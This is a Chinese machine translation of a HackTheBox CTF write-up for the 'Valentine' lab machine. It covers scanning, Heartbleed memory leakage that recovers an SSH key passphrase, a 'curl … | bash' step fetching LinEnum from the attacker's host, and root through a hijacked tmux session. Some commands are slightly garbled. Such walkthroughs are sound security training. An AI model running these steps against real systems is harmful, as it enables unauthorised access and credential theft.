# 瓦伦丁——黑客盒子评论

> 原文：<https://infosecwriteups.com/valentine-a-hackthebox-writeup-f5b731e35138?source=collection_archive---------0----------------------->

> 所以，我刚从 [HackTheBox](https://www.hackthebox.eu) 开始，整个想法真的很棒，为全世界的黑客提供在线 CTF 来练习和磨练他们的技能。对 [IPPSEC](https://www.youtube.com/channel/UCa6eh7gCkpPo5XXUDfygQQA) 的另一个大喊，为了更好地理解，本文中使用的图像取自他的视频。



这是发表这篇文章的最佳时机。爱情弥漫在空气中，而对于信息安全的人们来说，爱情就在机器里。所以在有人拿走你的情人节礼物之前，让我们开始吧。

# 让我们开始吧！

连接 hackthebox 机器并设置 OpenVPN 你可以在这里观看。所以，我就不多讨论了，进入核心部分我们开始一个一个开门。主要目标是获得对 valentine linux 机器的根访问，现在我们只知道它的 IP 地址(10.10.10.79)。

## Nmap

如果你遵循任何以前的 CTF 写，那么你一定知道，每当我们有一个 IP 地址，然后扫描机器的开放端口是我们总是需要执行的第一步。

```
nmap -sC -sV 10.10.10.79
```

因此，我们运行上面的命令来找出机器上开放的端口。


Nmap 输出

在机器上打开了 SSH 的端口 22、HTTP 的端口 80 和 HTTPS 的端口 443。当我们看到 SSH 的版本并意识到这台机器安装了过时的 Ubuntu 版本时，这台机器的独特之处就出现了，Apache 版本也过时了。

一旦我们通过正常的谷歌搜索确认系统已经过时，我们就会检查这个过时的版本是否有一些众所周知的漏洞可以被我们利用。

我们在机器上运行这个脚本来找出众所周知的漏洞。

```
nmap --script vuln -oA nmap/vulnscan 10.10.10.79
```

该命令的输出如下，没有关于端口 22 的任何内容，但是对于端口 80，我们有几个有趣的点弹出，端口 443 有再次提到的相同点。



机器上的漏洞

出现了一些漏洞，如 SSL/TLS MITM 漏洞(CSS 注入)和 SSL Heartbleed。因此，从现在开始，至少我们知道应该如何获得机器上的 root 权限。

## 分析

现在，我们知道机器很有可能易受 Heartbleed 攻击，因此我们尝试使用 SSLyze 工具来确认这一点。

```
sslyze --heartbleed 10.10.10.79:443
```

我们使用“- heartbleed”扩展来特别确认机器是否容易受到 heartbleed 的攻击，我们看到了以下输出。



分析输出

## GoBuster

现在，我们已经确认机器容易受到心脏出血的攻击，我们试图找出进入系统的其他攻击媒介。

端口 80 和 443 是开放的，因此我们必须尝试找出该域上存在的其他资源，为此我们运行一个 gobuster 来搜索目录并找到有用的域来探索。

```
gobuster -u [http://10.10.10.79](http://10.10.10.79) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
```

一旦我们在 Kali 框中运行上面的命令，我们很快就会看到下面的目录。



我们一个接一个地访问这些目录。

## /索引

这给了我们一张 Heartbleed 商标的图片


情人节标志

## /omg

当我们打开这个目录时，上面的图像也出现了。

## /开发

这个目录很有趣，因为它向我们展示了以下文件。



我们首先打开 notes.txt 文件，该文件是我们需要遵循的指令列表。



然后我去了 hype.txt 文件，它看起来像一个 ASCII 码，所以我们复制了整个东西，并将其粘贴在一个 ASCII 转换器中，它原来是一个私有 RSA ssh 密钥。我们将私有 RSA 密钥保存在当前文件夹中，并更改。密钥文件

```
chmod 600 hype.key
```

一旦我们这样做了，现在我们可以使用私钥文件 ssh 到情人节的盒子。所以，我们尝试 SSH 到机器，我们键入命令

```
ssh -I hype.key 10.10.10.79
```

ssh 私有密钥有效，我们需要输入一个密码，但是我们还不知道密码。我们终止连接，并试图找出密码。



## 心脏出血

现在，回到我们现在知道的基础知识，我们可以通过 shell 访问机器，但我们需要一个密码，机器容易受到 Heartbleed 攻击，这一切都指向我们需要执行 heartbleed 攻击的方向。

所以这个图像是最容易理解的心脏出血的解释，你要求服务器回复土豆(6 个字母)，它这样做，然后你要求它返回鸟(4 个字母)，它这样做，但当你有创意，告诉它发回帽子(500 个字母)。Hat 仅由 3 个字母组成，因此服务器将使用 hat 进行响应，但也会在保存它的内存中发送 hat 旁边的接下来的 497 个字母。这会导致巨大的内存泄漏，并带来泄漏极其重要和高价值数据的风险。

这就是为什么 Heartbleed 攻击是极其危险的，应该调查你的服务器不容易受到攻击。

## 开源代码库

因此，现在利用心脏出血漏洞，我们寻找一个代码可以帮助我们。这里的是我们用来开发机器的 github 库的链接。

heartbleed 的问题在于它很难预测可能呈现给你的输出。因此，为了克服这一点，心脏出血攻击被反复进行，希望发现一些新的信息。

我们有 heartbleed 代码，我们把它保存在我们的文件夹中，然后在机器上运行攻击。

```
python -n 100 heartbleed.py 10.010.10.79
```

通过使用'-n '，我们一次又一次地运行程序上百次，以获得尽可能多的信息。

这个命令完成后，一个巨大的输出呈现在我们面前。



我们设法把它捞了出来。你会马上注意到这一点，因为大部分获得的信息并不仅仅是看上去有用，因为你不能从中得到任何意义。如果您对编码和解码有任何想法，您可以通过查看$text 值来判断它是 base64 编码的。因此，我们继续解码它，通过下面的命令。


一旦我们收到解码的 base64 消息，我们就用它作为密码通过 SSH 进入情人节信箱。

## 外壳访问

现在，我们拥有了 shell 访问权限，可以运行命令并检查我们现在拥有的特权。运行“ls”命令首先我们在用户目录中，然后我进入桌面目录，再次运行“ls”命令并找到 users.txt。

现在是运行 LinEnum.sh 文件的时候了，它是我们的特权检查器，用来检查我们在这台机器上的特权和其他详细信息。我们首先在我们的机器上设置一个 http web 服务器并托管 LinEnum.sh 文件，这样我们就可以在我们的 Valentine box 上下载该文件。

```
curl 10.10.14.30/LinEnum.sh | bash
```

我们通过 curl 在我们的 valentine 机器上下载 LinEnum.sh 并连续运行 bash 文件。

我们面前有一个巨大的文件，里面有大量关于易受攻击的盒子的信息。我需要让你知道，这个过程可能需要时间，需要高度的耐心。于是我们发现了一个有趣的”。bash_history”文件放在“主目录内容:”



所以我们打开了。bash_history 文件，我们看到了这个输出。



我们在通过 LinEnum.sh 文件收集的信息中搜索“dev_sess”关键字。我们检查由根运行的进程。

```
ps -ef | grep root
```

我们看到了由根运行的进程的详细列表。



看到这一点，我们运行下面的命令，我们发现。devs/dev_sess 是由 root 用户创建的，但是在 hype 组下。


因为流程是在 hype 组下创建的，并且 hype 拥有读写权限。


因此，我们在/上打开了 tmux 会话。开发/开发 _ 会话


boom 在进程运行时，我们以 root 用户身份获得访问权限，然后我们可以获得 root.txt 文件。



这就是人们进入情人节盒子的一步一步的指南。

# 道德的

熟悉你所使用的工具，清楚地列出你在每一步需要采取的步骤。不要放弃，这是你在做这些 CTF 时需要做的一件事，并且试着自己去做。开始的时候会很艰难，然后你会慢慢地开始一步步走起来。

如果你喜欢，请鼓掌让我们合作。获取、设置、破解！

网址:【aditya12anand.com】T2|捐赠:【paypal.me/aditya12anand】T4

电报:[https://t.me/aditya12anand](https://t.me/aditya12anand)

推特:【twitter.com/aditya12anand 

领英:【linkedin.com/in/aditya12anand/ 

电子邮件:aditya12anand@protonmail.com